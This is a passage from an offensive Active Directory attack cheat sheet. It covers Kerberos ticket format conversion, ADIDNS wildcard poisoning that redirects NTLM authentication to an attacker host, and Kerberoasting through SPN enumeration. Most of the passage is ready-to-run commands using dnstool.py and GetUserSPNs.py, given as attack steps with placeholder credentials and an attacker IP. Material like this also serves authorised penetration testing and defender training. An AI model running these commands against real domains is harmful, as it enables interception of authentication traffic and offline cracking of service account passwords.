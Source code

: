 If the Kerberos ticket is in `.kirbi` format it can be converted like this:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

### ADIDNS Poisoning

How to deal with the **Active Directory Integrated DNS** and redirect the NTLM authentications to us

* By default, any user can create new ADIDNS records
* But it is not possible to change or delete a record we are not owning
* By default, the DNS will be used first for name resolution in the AD, and then NBT-NS, LLMNR, etc

{% hint style="info" %}
If the **wilcard record** (\*) doesn't existe, we can create it and all the authentications will arrive on our listener&#x20;
{% endhint %}

#### Wildcard attack

The char `*` can't be added via DNS protocol because it will break the request. Since we are in an AD we can modify the DNS via LDAP:

```bash
# Check if the '*' record exist
python3 dnstool.py -u "domain.local\user1" -p "password" -a query -r "*" <DNS_IP>

# creates a wildcard record
python3 dnstool.py -u "domain.local\user1" -p "password" -a add -r "*" -d <attacker_IP> <DNS_IP>

# disable a node
python3 dnstool.py -u "domain.local\user1" -p "password" -a remove -r "*" <DNS_IP>

# remove a node
python3 dnstool.py -u "domain.local\user1" -p "password" -a ldapdelete -r "*" <DNS_IP>
```

## Domain Privesc

### Kerberoast

The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
Password hashes of service accounts could be used to create Silver tickets.

#### Find user with SPN

```bash
GetUserSPNs.py -dc-ip <DC_IP> domain.local/user1:password

#In another domain through trust
GetUserSPNs.py -dc-ip <DC_IP> -target-domain <target_domain> domain.local/user1:password
```
